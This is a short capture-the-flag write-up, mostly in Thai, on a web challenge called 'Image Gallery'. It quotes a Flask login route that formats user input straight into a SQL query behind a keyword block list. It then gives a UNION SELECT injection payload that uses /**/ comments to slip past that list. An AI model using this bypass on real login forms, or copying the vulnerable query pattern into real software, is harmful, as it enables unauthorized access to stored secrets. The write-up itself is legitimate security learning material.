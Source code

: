 # web/Image Gallery

## schema.sql
```sql
CREATE TABLE IF NOT EXISTS login_details (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT NOT NULL,
    password TEXT NOT NULL
, secret TEXT);
```
คือเขาให้มาแค่นี้จริงๆ ผมก็เลยเดาว่า flag น่าจะอยู่ใน secret

## main.py
```python
...
@app.route("/login", methods=["POST", "GET"])
def login():
    if "logged_in" in session and session["logged_in"]:
        session.pop("logged_in", None)
        return redirect(url_for("login"))

    if request.method == "POST":
        username = request.form["username"]
        password = request.form["password"]
        loweruser = username.lower()
        lowerpass = password.lower()
        invalid_entries = invalid_entries = [
            "=",
            "<",
            ">",
            "+",
            "//",
            "|",
            ";",
            " ",
            " ",
            "'1",
            " 1",
            " true",
            "'true",
            " or",
            "'or",
            "/or",
            " and",
            "'and",
            "/and",
            "'like",
            " like",
            "/like",
            "'where",
            " where",
            "/where",
            "%00",
            "null",
            "admin'",
        ]
        matching_value = next(
            (
                value
                for value in invalid_entries
                if value in loweruser or value in lowerpass
            ),
            None,
        )
        if matching_value:
            error = (
                f"Invalid entry in username and/or password fields. Please try again."
            )
            return render_template("login.html", error=error)

        conn = sqlite3.connect("chal.db")
        cursor = conn.cursor()

        query = f"SELECT secret FROM login_details WHERE username = '{username}' AND password = '{password}';"

        result = cursor.execute(query)
        user = result.fetchone()

        conn.close()

        if user:
            session["logged_in"] = True
            session["username"] = username
            session["secret"] = user[0]
            return redirect(url_for("profile"))
        else:
            error = "Invalid login credentials. Please try again."
            return render_template("login.html", error=error)

    return render_template("login.html")
...
```

ครับจะเห็นว่ามัน sql injection ได้แหละ แต่มัน ignore famous command เลยต้อง research command ที่มันไม่มีอยู่ใน ignore list นี้

แล้วผมก็ไปเจอว่า /**/ การ comment แบบนี้ใน sql มันจะกลายเป็นช่องว่าง ก็~~แจ๋วสิครับ งั้นเราก็มา build payload กัน

## payload
```
'/**/union/**/select/**/secret/**/from/**/login_details--
```
![ez](1.png)
ครับเข้าได้จริง แต่มันให้มาเป็น jwt token และข้างในจะมีโค้ด js ที่ถูก obfuscate หลังจากนั้นก็เดากันเอาเองคั้บบ
![flag](2.png)

